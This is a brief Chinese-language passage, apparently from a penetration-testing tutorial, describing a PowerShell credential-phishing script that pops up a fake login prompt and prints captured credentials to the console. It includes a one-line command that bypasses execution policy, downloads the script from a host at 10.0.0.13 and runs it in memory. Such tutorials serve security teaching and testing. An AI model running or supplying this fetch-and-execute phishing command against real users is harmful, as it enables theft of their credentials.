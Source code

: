输入提示符会携带一条说明需要输入凭据的提示，安全意识比较强的很容易发现问题，并不适用所有企业环境：

![图片](assets/1710388646-a4dcd6e43d7a85e1f0822a358f67dc63.webp)

当用户的凭据输入时，结果将显示在控制台：

![图片](assets/1710388646-f35f591353ba0314315d7a0ff22b0c2f.webp)

脚本也可以通过远程调用：

> powershell.exe -ep Bypass -c IEX ((New-Object Net.WebClient).DownloadString('http://10.0.0.13/tmp/Invoke-CredentialsPhish/ps1')); Invoke-CredentialsPhish

![图片](assets/1710388646-321ef7f7e00685d6ec5c9e912b7e97cd.webp)
